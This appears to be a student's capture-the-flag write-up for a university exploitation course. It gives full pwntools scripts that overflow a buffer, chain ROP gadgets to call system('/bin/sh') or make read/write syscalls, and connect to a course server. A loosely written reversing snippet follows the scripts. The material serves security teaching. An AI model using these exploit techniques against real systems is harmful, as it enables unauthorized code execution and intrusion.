 # z5214048
## Wargame 6

swrop
===========================

Flag: COMP6447{this_was-easy}
> (but was it)?

General overview of problems faced
-------------------------------------
Had to hack the program:
1. Try sub/dec from ptr val of bin date string -fail
2. Ended up doing external offset to system alongside with the address oh /bin/sh in the local binary. Is it even an intended way given the flag text?


Script/Command used
------------------
```
#python2

from pwn import *

context.binary = './swrop'

io = remote("plzpwn.me", 6000)
#process('./swrop')
print(io.recvuntil('> '))

pay = 'A'*80
pay += p32(0xFFFFFFFA)
pay += '0'*52

# not used 1 
#pay += p32(0x080484D6)
# eax - ptr to bin date
# ebx - same, but otherwritten with rubbish
# edx - val of "bin date"
# ebp - no good

# 0x08048780 : dec ebp ; push cs ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret

# after vuln
# ebx - bin sh value

# 0x0804852c : push ebx ; call 0x8048417



system_plt_ddoff=p32(0x08048390)
c_exit=p32(0xf7df63d0)
sh_str=p32(0x080485F0)

main = p32(0x08048529)
main_subret = p32(0x0804855F)

pay += system_plt_ddoff
pay += c_exit
pay += sh_str
pay += main_subret


print("pay: "+pay)
print("pay len: "+str(len(pay)))
print("=================sending pay===============")

io.sendline(pay)
io.interactive()


print(io.recv())

"""
0x08048780 - dec ebp
0x0804834d - pop ebx

```

ropme
=============
Flag: COMP6447{no_u_come_up_with_another_flag}


General overview of problems faced
-------------------------------------
Had to hack the program:
1. Like in "3001_simpy", had to re-channel registers to read FD first, and print it thereafter
2. Encountered many of my mess-ups, but done it right in the end

Probably not in my interest to say, but while the script works, it takes as-is the hypothesis that FD of flag is 3 always, which might not be necessarily the case. The solutions to it are,
* Pop the stack until you find the value of FD in it, OR
* keep calling main(), creating more and more FDs, and after, say, 150 calls, pick FD = 80.

Either way, since it works perfectly as it is, I post the script as-is as well.

Script/Command used
------------------
```
#python2

from pwn import *

context.binary = './ropme'

io = remote("plzpwn.me", 6003)
#process('./ropme')
print(io.recvuntil('Gimme data: '))

vuln = p32(0x0804850A)
main = p32(0x08048539)

before_bye = p32(0x804858d)

pure_inc_ecx = p32(0x08048792)
pure_inc_edx = p32(0x08048505)
pure_inc_edx_alt = p32(0x080484fc)

pure_xor_edx = p32(0x080484ef)

pure_mov_ecx_to_eax = p32(0x080484f9)
pure_mov_edx_to_eax_and_ebx = p32(0x08048500)
pure_mov_esp_to_ebp = p32(0x080484ec)
pure_mov_edx_to_ebx = p32(0x08048502)

pure_x2_ecx = p32(0x080484ba)

pure_sub4_from_ecx = p32(0x080484f5)

pure_int80 = p32(0x080484f2)

# 0x080484df : push eax ; call edx
dirty_push1 = p32(0x080484df)

# 0x080484eb : push ebp ; mov ebp, esp ; ret
dirty_push2 = p32(0x080484eb)

# 0x08048534 : mov ecx, esp ; nop ; leave ; ret
dirty_killstack = p32(0x08048534)

pure_mov_valueatptr_esp_to_ebx = p32(0x0804841b) # or 0x0804841f / 0x0804841d. 1b is longest -> more legit

# 0x08048372 : push 0 ; add byte ptr [eax], al ; add esp, 8 ; pop ebx ; ret
# idea: xor ebx
# Replacable: pure_xor_edx + pure_mov_edx_to_ebx
dirty1_xor = p32(0x08048372)


pay = "AAAA"*2 # padding
# ecx is pre set to ESP, now off setting it slightly to create some space
# (dangerous technique as we might find ourselves on the dangerous grounds but ok)

pay += pure_sub4_from_ecx*10

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*3 #ebx=3
pay += pure_mov_edx_to_eax_and_ebx #eax=ebx=edx=3
pay += pure_inc_edx*(21+40) #edx=44
pay += pure_int80

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*4 #edx=4
pay += pure_mov_edx_to_eax_and_ebx #eax=ebx=edx=4

pay += pure_xor_edx #edx=0
pay += pure_inc_edx*1 #edx=1
pay += pure_mov_edx_to_ebx #ebx=edx=1
pay += pure_inc_edx*43 #edx=64
pay += pure_int80
pay += main

print("pay: "+pay)
print("pay len: "+str(len(pay)))
print("=================sending pay===============")

io.sendline(pay)
io.interactive()
```

roproprop
=============
Flag: none yet

General overview of problems faced
-------------------------------------
1. RopChain doesn't find any of "int 80", which implies having to mess libc. Will all due respect, because of #bloody_malware, no time to lose


reversing session
======================
Guess: some data struct handling code?

```
// var_4 -> buffer
// var_8 -> i
// var_C -> c
// the output file was compiled 32 bit

int main()
{
	int c = 0;
	int i = 0;
	int buffer;

	for(int i = 0; i <= 9; i++)
	{
		buffer = malloc(8); // push 8 irl
		assert (*buffer != NULL); // https://stackoverflow.com/a/2862748
		
		if(c)
		{
			buffer = c; 			
		}
		
		c = buffer;
		buffer->value = (i+65) & 0x000000FF; // to byte/mod	
	}
}
```


